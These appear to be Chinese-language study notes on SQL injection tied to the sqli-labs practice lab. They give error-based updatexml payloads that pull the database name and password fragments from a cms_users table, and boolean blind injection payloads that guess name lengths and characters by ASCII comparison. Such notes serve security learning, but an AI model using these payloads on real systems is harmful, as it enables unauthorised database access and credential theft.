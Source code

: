 > updatexml

```sql
?id=33 and updatexml(1,concat(0x5e,(select database()),0x5e),1)

?id=33 and updatexml(1,concat(0x5e,(select substr(password,1,16) from cms_users),0x5e),1)

?id=33 and updatexml(1,concat(0x5e,(select substr(password,17,32) from cms_users),0x5e),1)
```



## 布尔盲注

页面中有布尔类型的状态，可以根据布尔类型状态，对数据库中的内容进行判断。比如猜密码长度；

1.先测长度

```sql
/Less-8/?id=2' and length(database())>5 --+
# 页面正常，说明数据库名字的长度大于等于5
/Less-8/?id=2' and length(database())>10 --+
# 页面不正常，说明数据库名字的长度小于等于10
/Less-8/?id=2' and length(database())=8 --+
# 页面正常，说明数据库名字的长度是8
```

2.再测具体位 (通过ASCll码使用二分查找判断)

```sql
# 第一位
/sqli-labs/Less-8/?id=2' and ascii(substr(database(),1,1))=115 --+
# 115
# s

#第二位
/sqli-labs/Less-8/?id=2' and ascii(substr(database(),2,1))=101 --+
# 115 101
# s e

# 第三位
...
```

```sql
#1.先获取数据库长
?id=1' and length(database())>5 --+
#2.获取数据库具体名
?id=1' and ascii(substr(database(),1,1))=115 --+
#3.获取表名长
?id=1' and length((select table_name from information_schema.tables where table_schema=database() limit 1))>5 --+
#4.获取具体表名
?id=1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 1), 1, 1))>97 --+
```
